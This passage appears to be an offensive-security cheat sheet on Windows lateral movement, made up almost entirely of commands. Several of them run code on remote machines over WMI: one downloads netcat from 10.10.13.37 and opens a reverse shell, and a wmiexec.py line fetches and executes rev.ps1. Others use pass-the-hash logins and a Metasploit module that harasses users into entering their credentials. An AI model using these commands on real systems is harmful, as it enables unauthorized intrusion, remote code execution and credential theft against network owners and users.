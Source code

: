 ```powershell
winrs -r:pc.fqdn.local whoami;hostname
```

```powershell
$sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
Enter-PSSession -Session $sess
```

Identify PSRemoting access availble to current user
```powershell
Import-Module Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
### WMI 

Windows

```powershell
# Check Access
Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namespace" | Select Name

# Execute Commands
Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```

Linux

```bash
# Typical Usage
wmiexec.py 'domain'/'user':'Passw0rd!'@192.168.1.11
wmiexec.py -hashes :[... hash ...] 'domain'/'user'@192.168.1.11


# Reverse Shell
sudo python3 -m http.server 80
sudo rlwrap nc -lvnp 443
wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```


If RPC and SMB are blocked check with WMI
```powershell
Import-Module Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```


### Phishing with Metasploit
Using Metasploit we can leverage a phishing module to harvest user credentials by harassing them until they enter valid credentials.
```bash
msf6> use post/windows/gather/phish_windows_credentials
msf6> set session 1
msf6> run
```
